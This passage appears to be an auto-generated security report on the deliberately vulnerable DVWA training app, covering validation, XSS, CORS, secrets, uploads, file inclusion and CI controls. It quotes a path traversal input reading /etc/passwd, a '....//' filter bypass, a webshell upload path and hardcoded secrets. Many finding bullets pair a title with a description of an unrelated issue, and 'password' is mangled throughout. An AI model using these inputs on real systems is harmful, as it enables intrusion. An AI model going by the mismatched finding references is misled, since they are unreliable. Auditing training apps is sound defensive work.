`vulnerabilities/sqli/source/impossible.php` uses `PDO::prepare()` with `bindParam(':id', $id, PDO::PARAM_INT)` as the intended safe pattern. All other security levels build queries directly from `$_REQUEST['id']` using string interpolation passed to `mysqli_query()`.

**Security assessment**

Parameterized queries exist only in the impossible-level source, which is not the active code path by default. At low level, `sqli/source/low.php:10` interpolates `$_REQUEST['id']` directly into a `SELECT` statement with no escaping. At medium level, `mysqli_real_escape_string()` is applied but the query remains a string; UNION-based payloads still succeed when the escape is insufficient for the context.

**Relevant findings**

- 🔴 [F-003](#f-003) — SQL Injection — SQL injection in the vulnerability module queries allows full database read access and credential extraction at low and medium security levels.
- 🔴 [F-013](#f-013) — SQL Injection — Error-based injection assistance is available through the `die(mysqli_error())` pattern used in the login and module query paths.

### 6.6 Input Boundary Validation Controls

<a id="ctrl-input-boundary-validation-controls"></a>

**Dependent crossings:** [tb-1](#tb-1) refuted - 🔴 [F-001](#f-001) — OS Command Injection (`vulnerabilities/api/src/HealthController.php:88`) · [tb-2](#tb-2) refuted - 🟠 [F-014](#f-014) — Unpinned GitHub Actions allow supply-chain code injection (.github/workflows)

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.6.1 Validation Approach](#validation-approach)

**Implemented controls:** CSRF synchronizer tokens validated on state-changing forms; `stripslashes()` and `mysqli_real_escape_string()` applied to login inputs; security-level-based blacklist filtering at medium and high levels in vulnerability training modules.

**Assessment:** Input validation across the application is security-level-dependent and deliberately incomplete for training purposes. At the impossible level, modules implement strict allow-listing; at lower levels, blacklist-based filtering is bypassable and many inputs reach execution sinks without type or range checking. No centralized input validation layer exists.

<a id="validation-approach"></a>
#### 6.6.1 Validation Approach

**Status:** 🔴 Unsafe - security-level-dependent blacklists are the active validation mechanism and are bypassable; no centralized allowlist validation layer exists.

Validation in DVWA is module-local and security-level-driven. At impossible level, each module implements an explicit allowlist (e.g., IP address regex in `exec/source/impossible.php`, page-name array in `fi/source/impossible.php`). At medium and high levels, modules apply blacklist character filters. At low level, no filtering is applied. The CSRF token check in `dvwaPage.inc.php:checkToken()` is a positive cross-cutting control that validates request authenticity on state-changing operations.

**Security assessment**

Input validation has no central enforcement point. Each vulnerability module independently decides how to handle user input, and the decision is overridable by the client-controlled `security` cookie. Blacklist filters at medium/high levels use character denylist patterns that are routinely bypassed by encoding variants. Type and range checks are absent on numeric parameters across most modules. No schema-level validation or request parsing library enforces constraints before data reaches PHP execution primitives.

**Relevant findings**

- No dedicated finding routed in this assessment.

### 6.7 Output Encoding and Rendering Controls

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.7.1 HTML Output Encoding](#html-output-encoding)

**Implemented controls:** `htmlspecialchars()` applied to user-supplied output at the impossible level in XSS training modules; PHP's default output is not automatically encoded.

**Assessment:** Output encoding is module-local and security-level-dependent. At impossible level, `htmlspecialchars($name, ENT_QUOTES)` is applied before rendering. At low and medium levels, user-supplied content is interpolated directly into HTML output. No template engine with automatic escaping is in use; all output encoding is manual and opt-in.

<a id="html-output-encoding"></a>
#### 6.7.1 HTML Output Encoding

**Status:** 🔴 Unsafe - user-supplied content is interpolated directly into HTML at non-impossible security levels without encoding.

`vulnerabilities/xss_s/source/impossible.php` calls `htmlspecialchars($name, ENT_QUOTES)` before rendering stored user input. All other security levels in the XSS Stored and Reflected modules write `$_REQUEST` or database values directly into the HTML response body. DVWA does not use a template engine; output encoding is applied manually at each output point.

**Security assessment**

At low level, `xss_s/source/low.php:16` interpolates stored `$message` and `$name` values directly into HTML without encoding, enabling persistent XSS payload execution. At medium level, `str_replace('<script>', '', $message)` is applied but bypassed with alternate tag forms. No consistent encoding wrapper exists across output paths - each module is independently responsible for encoding decisions.

**Relevant findings**

- 🔴 [F-017](#f-017) — Cross-Site Scripting — Stored XSS at `xss_s/source/low.php:16` allows injected script content to execute in other users' browsers due to missing `htmlspecialchars()` encoding on the stored name and message fields.

### 6.8 Browser and Cross-Origin Controls

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.8.1 CSRF Protection](#csrf-protection)
- [6.8.2 CORS Policy](#cors-policy)
- [6.8.3 Content Security Policy](#content-security-policy)
- [6.8.4 HTTP Security Headers](#http-security-headers)

**Implemented controls:** CSRF synchronizer token (`user_token`) generated per session and validated on login and admin operations via `dvwaPage.inc.php:generateSessionToken()` and `checkToken()`; `SameSite=Strict` cookie attribute set at impossible security level.

**Assessment:** CSRF protection is present on the login form and some state-changing actions, but the CSRF vulnerability module intentionally omits token checks at lower security levels. The REST API has an overly permissive CORS policy. No Content-Security-Policy, X-Frame-Options, X-Content-Type-Options, HSTS, or Referrer-Policy headers are emitted by any response path.

<a id="csrf-protection"></a>
#### 6.8.1 CSRF Protection

**Status:** 🟠 Weak - CSRF token validation is present on the login form and admin actions but intentionally absent on the pass**** (8 chars)-change endpoint at lower security levels.

`dvwaPage.inc.php:generateSessionToken()` creates a per-session `user_token` stored in `$_SESSION` and embedded in forms. `checkToken()` validates the submitted token before processing state-changing requests. At the impossible security level, the CSRF module also implements the synchronizer token pattern on the pass**** (8 chars)-change form.

**Security assessment**

The CSRF training module at `vulnerabilities/csrf/source/low.php:3` accepts pass**** (8 chars) changes via GET request with no CSRF token check - the vulnerability is intentional training content. At medium level, referer-header checking is applied but is bypassable. The `checkToken()` function is also bypassed when `DISABLE_AUTHENTICATION=true`, removing both authentication and CSRF protection simultaneously.

**Relevant findings**

- 🟠 [F-018](#f-018) — CSRF on Password Change via GET — The pass**** (8 chars)-change endpoint at `csrf/source/low.php:3` accepts GET requests without a CSRF token, enabling cross-site pass**** (8 chars) changes from any attacker-controlled page.
- 🟠 [F-030](#f-030) — Missing HTTP Security Headers Across All Responses — The REST API CORS policy allows arbitrary cross-origin requests, making CORS an unreliable boundary for protecting cross-origin state changes.
- 🟡 [F-055](#f-055) — Overly Permissive CORS Policy — Missing security headers (`X-Frame-Options`, `SameSite` below impossible level) compound CSRF risk by enabling clickjacking and cross-site cookie delivery.

<a id="cors-policy"></a>
#### 6.8.2 CORS Policy

**Status:** 🔴 Unsafe - the REST API CORS configuration reflects arbitrary origins, granting any website cross-origin read access to authenticated API responses.

`vulnerabilities/api/public/index.php:39` configures the Slim framework CORS middleware. The `Access-Control-Allow-Origin` header is set to a permissive value that does not restrict to an explicit allowlist of trusted origins, allowing cross-origin requests from any domain to read API responses when credentials are included.

**Security assessment**

A permissive CORS origin header allows any page on the internet to make credentialed cross-origin requests to the DVWA API and read the responses. Combined with the missing authentication on `UserController` endpoints, this allows cross-origin enumeration of user account data without a valid session. The `gen_openapi.php` also sets permissive CORS headers, exposing the full API specification to unauthenticated cross-origin callers.

**Relevant findings**

- 🟠 [F-018](#f-018) — CSRF on Password Change via GET — The permissive CORS policy enables cross-origin requests that can exploit the missing CSRF token on state-changing endpoints.
- 🟠 [F-030](#f-030) — Missing HTTP Security Headers Across All Responses — Overly permissive CORS at `vulnerabilities/api/public/index.php` and `gen_openapi.php` allows arbitrary origins to read authenticated API responses.
- 🟡 [F-055](#f-055) — Overly Permissive CORS Policy — The absence of security headers means no `Vary: Origin` or `Access-Control-Allow-Credentials: false` fallback limits the exposure created by the permissive CORS configuration.

<a id="content-security-policy"></a>
#### 6.8.3 Content Security Policy

**Status:** 🔴 Missing - no Content-Security-Policy header is emitted by any response path.

`dvwaPage.inc.php` coordinates HTTP response headers for every rendered page through the `dvwaPage()` function and its header-building logic at line 385. The function sets `Content-Type: text/html; charset=utf-8` and some cache directives but does not emit a `Content-Security-Policy` header. Adding CSP would be implemented in this same location.

**Security assessment**

No CSP header is present across any response. Without CSP, injected inline scripts from the stored XSS findings execute without restriction, `<script src="...">` tags can load attacker-controlled payloads from any origin, and there is no `frame-ancestors` directive to restrict framing. The absence of CSP directly amplifies the exploitability of stored and reflected XSS findings across the application.

**Relevant findings**

- 🟠 [F-018](#f-018) — CSRF on Password Change via GET — Missing CSP removes the secondary browser-level control that would limit the impact of CSRF-enabled script injection on the pass**** (8 chars)-change page.
- 🟠 [F-030](#f-030) — Missing HTTP Security Headers Across All Responses — No CSP means the permissive CORS policy is the only cross-origin control, and it is itself permissive.
- 🟡 [F-055](#f-055) — Overly Permissive CORS Policy — The missing CSP is one of several absent security headers catalogued under this finding.

<a id="http-security-headers"></a>
#### 6.8.4 HTTP Security Headers

**Status:** 🔴 Missing - X-Frame-Options, X-Content-Type-Options, HSTS, and Referrer-Policy headers are not emitted by any response path.

`dvwaPage.inc.php:dvwaPage()` builds the HTTP response for every page render and is the central location for header output. It currently sets `Content-Type` and session cookie parameters but does not include defensive browser headers. The header-setting block at line 385 is where these controls would be implemented.

**Security assessment**

No `X-Frame-Options` or `frame-ancestors` CSP directive protects against clickjacking. No `X-Content-Type-Options: nosniff` prevents MIME-type sniffing of uploaded content. No HSTS header enforces HTTPS on browsers that have connected over TLS. The absence of these headers leaves the application relying solely on browser defaults for cross-origin and content-type isolation.

**Relevant findings**

- 🟠 [F-018](#f-018) — CSRF on Password Change via GET — Missing `X-Frame-Options` enables clickjacking attacks that can be chained with the CSRF token absence to trigger cross-site pass**** (8 chars) changes.
- 🟠 [F-030](#f-030) — Missing HTTP Security Headers Across All Responses — Without CORS and security headers working in concert, cross-origin isolation is entirely absent from the REST API surface.
- 🟡 [F-055](#f-055) — Overly Permissive CORS Policy — Missing HTTP security headers across all responses (`dvwaPage.inc.php:385`) are the primary finding for this control gap.

### 6.9 Cryptography Secrets and Data Protection


**Systemic weaknesses:** [W-003](#w-003), [W-004](#w-004)
**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.9.1 Password Hashing](#pass-hashing)
- [6.9.2 Secrets Management](#secrets-management)
- [6.9.3 Transport Encryption](#transport-encryption)

**Implemented controls:** AES-128-GCM encryption applied to REST API bearer tokens in `Token.php`; `MD5` hashing applied to user pass**** (8 chars)s before storage (inadequate primitive but present as a control).

**Assessment:** The cryptographic controls that exist are defeated by their inputs: AES-128-GCM key "Paintbrush" and access token secret "12345" are hardcoded constants in source, negating all benefit of authenticated encryption. Password hashing uses unsalted `MD5` across all user tables and login paths. No TLS configuration is present at the application layer, leaving all traffic unencrypted by default.

<a id="pass-hashing"></a>
#### 6.9.1 Password Hashing

**Status:** 🔴 Unsafe - unsalted `MD5` is used as the pass**** (8 chars) hash primitive throughout; it provides no meaningful resistance to offline cracking.

Passwords are hashed with PHP's `md5()` function before storage and comparison. `login.php:27` calls `md5($_GET['pass**** (8 chars)'])` to hash the login credential. `database/create_postgresql_db.sql:2` seeds the user table with pre-computed `MD5` hashes. The REST API's `User.php:44` serializes the stored `MD5` hash directly into API responses.

**Security assessment**

`MD5` is a general-purpose fast hash with no work factor and no salt. A database dump immediately yields all user pass**** (8 chars)s via precomputed rainbow tables or GPU brute-force. The seed hashes in `create_postgresql_db.sql` and `create_sqlite_db.sql` are plaintext-equivalent. The v1 User API at `User.php:44` additionally exposes stored hash values in API responses, giving attackers the hashes without needing database access.

**Relevant findings**

- 🔴 [F-006](#f-006) — Hardcoded Database Credentials in `compose.yml` Enable Unauthenticated Access — Hardcoded AES-128-GCM key in `Token.php` means the token encryption provides no confidentiality; this compounds the pass**** (8 chars) hash weakness by also exposing bearer-token material.
- 🔴 [F-007](#f-007) — Hardcoded Cryptographic Key — Hardcoded credentials in `LoginController.php:60` bypass the hash comparison entirely by comparing plaintext to plaintext literals.
- 🔴 [F-008](#f-008) — Hardcoded User and OAuth2 Client Credentials — Hardcoded OAuth2 client secret in `LoginController.php:86` exposes a second credential pathway independent of the pass**** (8 chars) hash.

<a id="secrets-management"></a>
#### 6.9.2 Secrets Management

**Status:** 🔴 Unsafe - application secrets are hardcoded string literals in version-controlled source files publicly accessible on GitHub.

`vulnerabilities/api/src/Login.php:10` declares `private const ACCESS_TOKEN_SECRET = "12345"`. `vulnerabilities/api/src/Token.php:10` declares `private const ENCRYPTION_KEY = "Paintbrush"`. `compose.yml:31` sets `MYSQL_ROOT_PASSWORD=dvwa` and `MYSQL_PASSWORD=p@ss**** (8 chars)` as plain-text environment variables. `config/config.inc.php.dist:21` provides a fallback database pass**** (8 chars) literal.

**Security assessment**

Every cryptographic secret and database credential in the application is committed to the public DVWA repository. Any party with read access to the repository possesses working credentials. The AES-128-GCM token encryption is rendered meaningless when its 10-character key is a public constant. Database credentials in `compose.yml` are non-rotatable without a code change. No environment-variable indirection or secrets management runtime is used.

**Relevant findings**

- 🔴 [F-006](#f-006) — Hardcoded Database Credentials in `compose.yml` Enable Unauthenticated Access — Hardcoded `ACCESS_TOKEN_SECRET = "12345"` at `Login.php:10` allows offline forgery of any bearer token accepted by the REST API.
- 🔴 [F-007](#f-007) — Hardcoded Cryptographic Key — Hardcoded user credentials at `LoginController.php:60` allow unauthenticated token acquisition using publicly known username and pass**** (8 chars) literals.
- 🔴 [F-008](#f-008) — Hardcoded User and OAuth2 Client Credentials — Hardcoded OAuth2 client credentials at `LoginController.php:86` expose the pass**** (8 chars)-grant flow to replay by anyone who has read the source.

<a id="transport-encryption"></a>
#### 6.9.3 Transport Encryption

**Status:** 🔴 Missing - no TLS configuration is present at the application layer; the application serves traffic over unencrypted HTTP by default.

DVWA is served by an Apache process configured in the Docker image. The `Dockerfile` and `compose.yml` expose port 80 (HTTP) only. No TLS certificate configuration, HTTPS redirect, or `Secure` cookie flag (at non-impossible levels) is present in any application or container configuration file.

**Security assessment**

All authentication credentials, session cookies, and API bearer tokens are transmitted in cleartext over HTTP. The `Secure` cookie flag is hard-coded `false` at all security levels below impossible (`dvwaPage.inc.php:62`), meaning the `PHPSESSID` cookie is sent over HTTP even if a TLS termination layer is added upstream. The `about.php` page loads external resources over HTTP, creating a mixed-content risk in any HTTPS-proxied deployment.

**Relevant findings**

- 🔴 [F-006](#f-006) — Hardcoded Database Credentials in `compose.yml` Enable Unauthenticated Access — Bearer tokens issued by the REST API are transmitted without transport encryption, compounding the risk from hardcoded signing secrets.
- 🔴 [F-007](#f-007) — Hardcoded Cryptographic Key — Hardcoded credentials sent over cleartext HTTP are trivially interceptable by a network observer.
- 🔴 [F-008](#f-008) — Hardcoded User and OAuth2 Client Credentials — OAuth2 client credentials exchanged via the API are exposed on the wire when no TLS is in place.

### 6.10 File Parser and Outbound Request Controls

<a id="ctrl-file-parser-and-outbound-request-controls"></a>

_No trust boundary in this model depends on this control class._

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.10.1 File Upload Validation](#file-upload-validation)
- [6.10.2 File Inclusion Prevention](#file-inclusion-prevention)

**Implemented controls:** At the impossible security level, the file upload module validates MIME type via `finfo_file()`, checks image dimensions, and applies an extension allowlist; the file inclusion module uses a hard-coded allowlist of permitted page filenames.

**Assessment:** Both the file upload and file inclusion controls exist in correct form at the impossible security level and are entirely absent at the low security level. The default active level is low, meaning both controls are defeated in the default deployment. The upload directory `hackable/uploads/` is web-accessible and PHP execution is not disabled within it.

<a id="file-upload-validation"></a>
#### 6.10.1 File Upload Validation

**Status:** 🔴 Unsafe - the low-level upload path calls `move_uploaded_file()` with no extension, MIME type, or content validation, and stores files in a web-accessible directory where PHP executes.

`vulnerabilities/upload/source/impossible.php` applies `finfo_file()` MIME validation, image dimension checking, and a `jpeg`/`png`/`gif` extension allowlist as the intended safe pattern. `upload/source/low.php:9` calls `move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)` directly after the multipart parse with no checks. Uploaded files land in `hackable/uploads/`, which Apache serves directly with PHP engine enabled.

**Security assessment**

At low level, any file type is accepted and stored with its original extension. A PHP webshell uploaded as `shell.php` is immediately executable via a direct HTTP request to `hackable/uploads/shell.php`. Medium level applies a content-type header check (`$_FILES['type']`), which is client-supplied and trivially forged. The destination directory's PHP execution is unrestricted by `.htaccess` at lower security levels.

**Relevant findings**

- 🔴 [F-001](#f-001) — OS Command Injection — `upload/source/low.php:9` stores arbitrary uploaded files in the web-accessible `hackable/uploads/` directory without type or content validation, enabling remote code execution via webshell upload.
- 🔴 [F-002](#f-002) — OS Command Injection — File inclusion and upload weaknesses share the same root cause: unvalidated user input reaching a PHP execution primitive with no allowlist control.
- 🟠 [F-012](#f-012) — OS Command Injection — OS command injection via `exec()` and `shell_exec()` in the execution modules demonstrates the same pattern of unvalidated input reaching a system-level execution sink.

<a id="file-inclusion-prevention"></a>
#### 6.10.2 File Inclusion Prevention

**Status:** 🔴 Unsafe - `fi/index.php:36` calls `include($file)` where `$file` is `$_GET['page']` with no path restriction at low security level.

`vulnerabilities/fi/source/impossible.php` implements a hard-coded allowlist: `$file = $_GET['page']` is compared to an explicit array of permitted page names before the `include()` call. `fi/index.php:36` passes `$file` directly to `include()` at low level. At medium level, `str_replace('../', '', $file)` is applied, which is bypassed by `....//` path traversal encoding.

**Security assessment**

At low level, path traversal via `?page=../../../../etc/passwd` reads arbitrary server files readable by the web process. If `allow_url_include=On` in `php.ini`, substituting a remote URL achieves remote code execution. The medium-level string replace is a blacklist fix that fails against encoding variants. The path traversal and remote inclusion risks are directly compounded by the lack of open-basedir restrictions or PHP `disable_functions` configuration.

**Relevant findings**

- 🔴 [F-001](#f-001) — OS Command Injection — Unrestricted file upload and file inclusion share the web-accessible directory as a common staging point: uploaded webshells can be reached via file inclusion as well as direct HTTP requests.
- 🔴 [F-002](#f-002) — OS Command Injection — `fi/index.php:36` includes `$_GET['page']` directly, enabling LFI path traversal to read `/etc/passwd` and other server files at low security level.
- 🟠 [F-012](#f-012) — OS Command Injection — Command injection in `exec/source/low.php:10` and `HealthController.php:88` follows the same architectural pattern: user-controlled input reaching a PHP execution primitive without an allowlist gate.

### 6.11 Operations Runtime and Supply Chain Controls


**Systemic weaknesses:** [W-002](#w-002)
**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.11.1 Dependency CVE Scanning](#dependency-cve-scanning)
- [6.11.2 CI/CD Actions Pinning](#cicd-actions-pinning)
- [6.11.3 Container Image Hygiene](#container-image-hygiene)
- [6.11.4 GitHub Actions Permissions Hardening](#github-actions-permissions-hardening)
- [6.11.5 Audit Logging](#audit-logging)
- [6.11.6 Automated SCA scanning](#automated-sca-scanning)
- [6.11.7 Automated dependency updates](#automated-dependency-updates)
- [6.11.8 Lockfile hygiene](#lockfile-hygiene)

**Implemented controls:** `package-lock.json` committed to the repository for Node\.js dependencies; select GitHub Actions workflow steps pinned to full commit SHA digests (e.g., `docker/build-push-action` in `docker-image.yml:16`).

**Assessment:** Most supply-chain and operational controls are absent: no Dependabot or Renovate configuration, no SCA scanning step in CI, no structured security audit logging in the application, no workflow-level permissions block in multiple workflow files, and the Dockerfile base image is not digest-pinned. The lockfile for Node\.js is committed, but PHP Composer is not used with a lockfile. The CI pipeline runs with default `write-all` `GITHUB_TOKEN` scope on workflows that lack an explicit permissions block.

<a id="dependency-cve-scanning"></a>
#### 6.11.1 Dependency CVE Scanning

**Status:** 🔴 Missing - no automated dependency vulnerability scanning step exists in the CI pipeline or as a scheduled workflow.

The CI pipeline in `.github/workflows/docker-image.yml` builds and pushes the Docker image but includes no dependency scanning step. No `.github/dependabot.yml` configuration file enables Dependabot security alerts. No third-party SCA tool (Snyk, Trivy, OWASP Dependency-Check) is configured in any workflow.

**Security assessment**

Known-vulnerable PHP packages and OS packages in the container image are not automatically detected. Dependabot security alerts are not enabled on the repository, so newly published CVEs affecting pinned dependencies produce no notification. The Dockerfile installs system packages via `apt-get` with no pinned package versions, meaning builds can silently pull vulnerable package versions.

**Relevant findings**

- 🟠 [F-015](#f-015) — Overprivileged 'dvwa' DB User Has DDL Permissions — Unpinned GitHub Actions allow supply-chain code injection; the same CI pipeline that lacks Actions pinning also lacks dependency scanning.
- 🟠 [F-020](#f-020) — Missing Security Event Audit Logging — The Dockerfile base image is not digest-pinned, meaning the CI build can silently pull a new base image with newly introduced or unpatched vulnerabilities.
- 🟠 [F-022](#f-022) — Third-party GitHub Actions pinned to commit SHA — Missing workflow-level permissions hardening means the `GITHUB_TOKEN` available during a dependency scan step would have write-all scope by default.

<a id="cicd-actions-pinning"></a>
#### 6.11.2 CI/CD Actions Pinning

**Status:** 🔴 Missing - multiple third-party GitHub Actions in the workflows are referenced by mutable version tags rather than immutable commit SHA digests.

`.github/workflows/docker-image.yml` references `actions/checkout@v3` (line 13) and other actions by semver tag. `.github/workflows/codeql-analysis.yml` references `github/codeql-action/analyze@v2` by tag. A small subset of actions in `docker-image.yml` are pinned to SHA (e.g., `docker/build-push-action`), demonstrating awareness of the practice without consistent application.

**Security assessment**

A mutable tag (`@v3`, `@v2`) can be redirected to arbitrary code by a compromised upstream maintainer or a malicious tag update. Any action running in a workflow with default `write-all` `GITHUB_TOKEN` scope could exfiltrate secrets, modify repository contents, or push malicious images. The partial pinning shows the control is known but not uniformly applied.

**Relevant findings**

- 🟠 [F-015](#f-015) — Overprivileged 'dvwa' DB User Has DDL Permissions — Unpinned Actions at `.github/workflows/docker-image.yml:13` and `codeql-analysis.yml:45` allow an attacker who compromises the upstream action repository to inject code into the CI pipeline.
- 🟠 [F-020](#f-020) — Missing Security Event Audit Logging — An unpinned base image and unpinned Actions together mean the full build chain lacks immutability guarantees.
- 🟠 [F-022](#f-022) — Third-party GitHub Actions pinned to commit SHA — Missing permissions hardening amplifies Actions pinning gaps: an injected action step runs with write-all token scope.

<a id="container-image-hygiene"></a>
#### 6.11.3 Container Image Hygiene

**Status:** 🟡 Partial - the Dockerfile applies some hygiene practices (no root user directive present in some layers) but the base image is referenced by tag rather than `SHA256` digest, and no image signing or SLSA provenance is generated.

`Dockerfile:1` uses `FROM php:8.2-apache` as the base image, referencing the tag without a `@sha256:<digest>` pin. The workflow at `docker-image.yml` builds and pushes the image to Docker Hub but does not invoke `cosign` for image signing or `actions/attest-build-provenance` for SLSA Level 2 provenance attestation.

**Security assessment**

Tag-based base image references are mutable; Docker Hub can serve a different image under the same tag at any rebuild, silently introducing vulnerabilities or malicious content. No signed provenance attests that the pushed image was produced from the expected source commit. The `shiftleft-analysis.yml` workflow runs a code scanner but the results are not gated on the Docker build.

**Relevant findings**

- 🟠 [F-015](#f-015) — Overprivileged 'dvwa' DB User Has DDL Permissions — The same Docker image build pipeline that uses unpinned Actions also produces an unattested, tag-pinned image.
- 🟠 [F-020](#f-020) — Missing Security Event Audit Logging — `Dockerfile:1` references `php:8.2-apache` by tag; a digest pin would ensure the build always uses the same vetted base layer.
- 🟠 [F-022](#f-022) — Third-party GitHub Actions pinned to commit SHA — Without workflow permissions hardening, the `GITHUB_TOKEN` available during the image push step has write-all scope, enabling a compromised action to push arbitrary images.

<a id="github-actions-permissions-hardening"></a>
#### 6.11.4 GitHub Actions Permissions Hardening

**Status:** 🔴 Missing - no `permissions:` block is present at the workflow root in `docker-image.yml`, `codeql-analysis.yml`, or `shiftleft-analysis.yml`, so all jobs inherit the default `write-all` `GITHUB_TOKEN` scope.

GitHub Actions workflows default to `write-all` `GITHUB_TOKEN` permissions when no `permissions:` block is declared. `.github/workflows/docker-image.yml:1`, `codeql-analysis.yml:1`, and `pytest.yml:1` all lack a root-level `permissions:` block. A `permissions: { contents: read }` root block with per-job elevation where needed (e.g., `security-events: write` for CodeQL) would limit token scope.

**Security assessment**

A compromised third-party action or a malicious pull-request workflow in the same runner context can use the inherited `write-all` `GITHUB_TOKEN` to push commits, overwrite branches, modify releases, or exfiltrate repository secrets. The `shiftleft-analysis.yml:27` workflow additionally carries a `write-all` grant inherited without restriction, confirmed in the finding evidence.

**Relevant findings**

- 🟠 [F-015](#f-015) — Overprivileged 'dvwa' DB User Has DDL Permissions — Unpinned Actions running under `write-all` token scope combine to create a supply-chain code injection path with unrestricted repository write access.
- 🟠 [F-020](#f-020) — Missing Security Event Audit Logging — The Docker image push step benefits from unrestricted `packages: write` scope inherited from the default token, enabling untrusted code to push to the container registry.
- 🟠 [F-022](#f-022) — Third-party GitHub Actions pinned to commit SHA — Missing permissions block at `docker-image.yml:1`, `codeql-analysis.yml:1`, and `shiftleft-analysis.yml:27` is the primary evidence for this finding.

<a id="audit-logging"></a>
#### 6.11.5 Audit Logging

**Status:** 🔴 Missing - no structured security event logging exists for authentication attempts, privilege changes, or sensitive data access in either the web application or the REST API.

`dvwaPage.inc.php` handles all authentication and session management but emits no log records for login success, login failure, or session fixation events. `vulnerabilities/api/src/LoginController.php:75` processes REST API logins and token issuance without emitting security-relevant log entries. PHP's native `error_log()` is used for some debug output but not for structured security events.

**Security assessment**

Authentication failures, brute-force attempts, CSRF token validation failures, and admin actions leave no log trail. An operator running the application cannot distinguish a training session from an active attack. The REST API's `LoginController.php:75` is confirmed in the finding evidence to lack any audit output for authentication operations.

**Relevant findings**

- 🟠 [F-015](#f-015) — Overprivileged 'dvwa' DB User Has DDL Permissions — Without audit logging, a successful supply-chain compromise through unpinned Actions would leave no application-layer evidence of unauthorized access.
- 🟠 [F-020](#f-020) — Missing Security Event Audit Logging — Compromised container builds that change application behaviour cannot be detected through application logs when none exist.
- 🟠 [F-022](#f-022) — Third-party GitHub Actions pinned to commit SHA — Broad `GITHUB_TOKEN` scope combined with missing audit logging means pipeline-level actions that modify repository state leave no application-observable trace.

<a id="automated-sca-scanning"></a>
#### 6.11.6 Automated SCA scanning

**Status:** 🔴 Missing - no Software Composition Analysis step scans PHP Composer or system package dependencies for known CVEs in any CI workflow.

The `docker-image.yml` CI workflow builds and pushes the Docker image and runs a `shiftleft-analysis.yml` SAST scan, but no SCA tool (Trivy, Snyk, OWASP Dependency-Check, or GitHub's built-in Dependabot alerts) is configured to scan PHP or OS-level dependencies for known vulnerabilities. The PHP application has no `composer.json`/`composer.lock` dependency manifest, making automated PHP SCA impractical without one.

**Security assessment**

Known CVEs in the base OS packages installed during the Docker build, in any PHP extension, or in JavaScript dependencies declared in `package-lock.json` are not automatically surfaced. No SCA gate blocks a Docker push when a critical CVE is present. The absence of a `composer.json` also means PHP dependency versions are implicitly locked to whatever the base image provides, with no visibility into the dependency tree.

**Relevant findings**

- 🟠 [F-015](#f-015) — Overprivileged 'dvwa' DB User Has DDL Permissions — Unpinned GitHub Actions also means the CI toolchain itself is an unscanned dependency; SCA coverage should extend to action versions.
- 🟠 [F-020](#f-020) — Missing Security Event Audit Logging — The Dockerfile base image tag reference and absent SCA scanning together mean OS package CVEs accumulate silently between rebuilds.
- 🟠 [F-022](#f-022) — Third-party GitHub Actions pinned to commit SHA — SCA scanning results would require `security-events: write` scope to upload to GitHub code scanning; this is one of the job-level elevations currently blocked by the missing permissions block.

<a id="automated-dependency-updates"></a>
#### 6.11.7 Automated dependency updates

**Status:** 🔴 Missing - no Dependabot or Renovate configuration file exists in the repository; dependency version updates are entirely manual.

No `.github/dependabot.yml` is present in the repository. Neither Dependabot version updates nor Dependabot security updates are enabled for any package ecosystem (npm, pip, Docker, or GitHub Actions). Renovate is also not configured. Package version decisions are made only when a developer manually edits `package-lock.json` or the Dockerfile.

**Security assessment**

Security patches released for dependencies used by DVWA (Node\.js packages, Python packages in test scripts, Docker base image) produce no automated pull request. Patch adoption depends entirely on manual monitoring. The committed `package-lock.json` locks Node\.js versions but provides no automated notification or upgrade path when vulnerabilities are discovered in the locked versions.

**Relevant findings**

- 🟠 [F-015](#f-015) — Overprivileged 'dvwa' DB User Has DDL Permissions — Unpinned GitHub Actions are an automated-update failure mode: with Dependabot Actions updates enabled, mutable tag references would be pinned automatically with each action release.
- 🟠 [F-020](#f-020) — Missing Security Event Audit Logging — The Dockerfile base image tag would benefit from Dependabot Docker updates, which would open pull requests when newer patch versions are published.
- 🟠 [F-022](#f-022) — Third-party GitHub Actions pinned to commit SHA — Automated dependency update PRs would require `contents: write` scope; the missing permissions block at workflow root makes it harder to safely enable automated PRs without overprivileging all other jobs.

<a id="lockfile-hygiene"></a>
#### 6.11.8 Lockfile hygiene

**Status:** 🟢 Adequate - `package-lock.json` is committed to the repository, providing deterministic Node\.js dependency resolution for CI builds.

`package-lock.json` is committed at the repository root and version-controlled alongside the application source. This pins all transitive Node\.js dependencies to exact versions and SHAs, enabling reproducible installs via `npm ci`. The file is updated when `package.json` changes are made.

**Security assessment**

Node\.js dependency versions are deterministically pinned through the committed lockfile. This is the strongest supply-chain control in the repository. The lockfile covers only the Node\.js ecosystem; PHP dependencies have no Composer lockfile, and Python test dependencies have no `requirements.txt` pinning. The lockfile's utility is limited without a corresponding CI step that enforces `npm ci` over `npm install` and without Dependabot alerting on locked vulnerable versions.

**Relevant findings**

- 🟠 [F-015](#f-015) — Overprivileged 'dvwa' DB User Has DDL Permissions — Committed lockfile provides Node\.js dependency determinism, but unpinned GitHub Actions in the same CI pipeline undermine the overall supply-chain integrity guarantee.
- 🟠 [F-020](#f-020) — Missing Security Event Audit Logging — The Node\.js lockfile addresses one dependency surface; the Dockerfile base image tag provides no equivalent immutability guarantee at the OS layer.
- 🟠 [F-022](#f-022) — Third-party GitHub Actions pinned to commit SHA — Broad `GITHUB_TOKEN` scope on workflows that consume the lockfile means a malicious actor could rewrite the lockfile through a CI step running with write-all permissions.

### 6.12 Real-time and Not Applicable Controls

**Verdict:** 🟡 Partial

<!-- §6.12 LOCKED — mechanically derived from absence of real-time findings. Renderer must not rewrite the line below. -->
_Not applicable - no real-time / WebSocket findings routed to this category, and no AI/LLM, GraphQL, or gRPC surfaces detected by the recon scan. Controls catalogued elsewhere (container hardening, dependency determinism) are covered in their primary [§6](#6-security-architecture) sections._

### 6.13 Defense-in-Depth Summary

**Verdict:** -

